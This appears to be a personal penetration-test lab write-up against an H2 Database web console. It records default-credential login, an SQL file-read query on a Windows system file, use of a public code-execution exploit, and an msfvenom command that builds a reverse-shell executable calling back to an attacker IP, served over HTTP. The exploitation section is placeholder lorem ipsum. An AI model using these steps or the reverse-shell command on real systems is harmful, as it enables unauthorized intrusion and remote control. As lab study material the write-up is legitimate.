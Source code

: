## Port 80 - HTTP (H2 Database)
- 

## Port 135 - MSRPC (Windows RPC)

## Port 139 & 445 - SMB (Apache)

## Port 8082 - HTTP (Apache)
- Navigated to `http://192.168.182.66:80`82 and identified default page for `H2 Database Engine`
![[Cybersecurity-Resources/images/Pasted image 20241028212149.png]]
- Attempted login with default credentials `sa:` (No Password) and accessed admin panel
![[Cybersecurity-Resources/images/Pasted image 20241028212232.png]]
- Ran SQL query `SELECT FILE_READ('C:\Windows\system.ini', NULL);` to test file read ability
![[Cybersecurity-Resources/images/Pasted image 20241028214128.png]]
- Ran `SELECT FILE_WRITE('test','C:\test.txt');` to test file write ability - access is denied to directory.
![[Cybersecurity-Resources/images/Pasted image 20241028214439.png]]
- Ran `searchsploit "H2"` and identified exploit `49384.txt` to compile and run Java code on target for code execution
![[Cybersecurity-Resources/images/Pasted image 20241028215150.png]]
- Copied Java code into SQL field and ran
![[Cybersecurity-Resources/images/Pasted image 20241028215317.png]]
- Loaded Java native library
![[Cybersecurity-Resources/images/Pasted image 20241028215433.png]]
- Evaluated script with `whoami` to confirm code execution and identify `jacko/tony`
![[Cybersecurity-Resources/images/Pasted image 20241028215550.png]]
- Returned to Kali host and ran `msfvenom -p windows/shell_reverse_tcp LHOST=192.168.45.162 LPORT=4444 -f exe > revshell.exe` to create reverse shell executable, then `python3 -m http.server 80` to serve folder with `revshell.exe` via HTTP
![[Cybersecurity-Resources/images/Pasted image 20241028215953.png]]
- 
## Port 49152-60 - MSRPC (Windows RPC)
No Enumeration conducted

---
# Exploitation
## Name of the technique
Lorem ipsum dolor sit amet, consectetur adipiscing elit. Quisque sit amet tortor scelerisque, fringilla sapien sit amet, rhoncus lorem. Nullam imperdiet nisi ut tortor eleifend tincidunt. Mauris in aliquam orci. Nam congue sollicitudin ex, sit amet placerat ipsum congue quis. Maecenas et ligula et libero congue sollicitudin non eget neque. Phasellus bibendum ornare magna. Donec a gravida lacus.

---